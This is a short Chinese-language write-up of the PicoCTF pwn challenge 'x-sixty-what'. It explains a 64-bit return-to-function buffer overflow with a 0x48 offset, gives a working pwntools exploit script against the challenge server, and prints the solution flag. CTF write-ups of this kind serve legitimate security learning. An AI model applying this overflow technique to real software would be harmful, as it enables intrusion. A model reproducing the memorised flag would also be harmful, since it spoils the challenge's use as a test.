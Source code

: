 ```yaml
---
title: PicoCTF - x-sixty-what
tags: [PicoCTF, CTF, PWN]

---
```


# PicoCTF - x-sixty-what
## Source code
:::spoiler
```cpp=

```
:::
## Recon
這一題有點奇怪，沒有想像中簡單，看起來就是一個簡單的return 2 function的問題，但是看了objdump的flag function原本應該是0x401236，但是會友segmentation fault，看了其他的WP[^x_sixty_what_WP]，發現應該return到0x40123b，不太知道為甚麼
* 第一張是return 2 0x401236
![](https://hackmd.io/_uploads/Bk2PZ_0ch.png)

* 第二張是return 2 0x40123b
    ![](https://hackmd.io/_uploads/SymO-uAqn.png)

## Exploit
1. 用動態的方式看offset
$$
0x7fffffffd758 - 0x00007fffffffd710 = 0x48
$$
```python=
from pwn import *

r = remote('saturn.picoctf.net', 58166)
# r = process('./vuln')
context.arch = 'amd64'

raw_input()
print(r.recvline().strip().decode())

payload = b'a'*0x48 + p64(0x40123b)
print(payload)
r.sendline(payload)

r.interactive()
```

Flag: `picoCTF{b1663r_15_b3773r_e79d5a75}`
## Reference
[^x_sixty_what_WP]:[x-sixty-what WP](https://ctftime.org/writeup/33199)